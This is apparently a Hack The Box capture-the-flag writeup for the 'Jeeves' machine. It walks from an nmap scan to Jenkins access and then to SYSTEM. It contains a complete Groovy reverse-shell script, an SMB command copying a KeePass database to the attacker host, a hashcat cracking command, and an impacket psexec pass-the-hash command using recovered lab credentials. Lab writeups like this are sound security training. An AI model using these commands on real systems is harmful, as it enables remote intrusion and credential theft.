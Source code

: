 # HTB - Jeeves Writeup

## Reconnaissance
```bash
sudo nmap -Pn -p- -A -T4 10.129.234.197
```

**Results:**
```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
```

## Exploitation
### Jenkins Access
- Discovered Jenkins instance at `http://10.129.234.197:50000/askjeeves`
- Created project with Groovy reverse shell script:
```groovy
String host="10.10.16.39";
int port=1234;
String cmd="cmd";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()) {
  while(pi.available()>0) so.write(pi.read());
  while(pe.available()>0) so.write(pe.read());
  while(si.available()>0) po.write(si.read());
  so.flush();
  po.flush();
  Thread.sleep(50);
  try { p.exitValue(); break; } 
  catch (Exception e) {}
};
p.destroy();
s.close();
```

### Initial Access
- Run the new project with the groovy reverse shell and start a listener
- Obtained reverse shell as `kohsuke` user
- Found KeePass database: `C:\Users\kohsuke\Documents\CEH.kdbx`
- Exfiltrated via SMB:
```cmd
copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.16.39\smb\
```

### KeePass Cracking
- Cracked database password with Hashcat:
```bash
hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt
```
**Password:** `moonshine1`

### Database Contents
```
administrator:S1TjAtJHKsugh9oC4VZl
NTLM HASH: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

### Privilege Escalation
- Used credentials with Impacket's psexec:
```bash
impacket-psexec administrator@10.129.234.197 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
- Obtained SYSTEM-level access

## Flags
### User Flag
```
7b0b********************************
```

### Root Flag
Located in Alternate Data Stream:
```cmd
powershell (Get-Content hm.txt -Stream root.txt)
```
**Root Flag:**  
```
afbc********************************
```
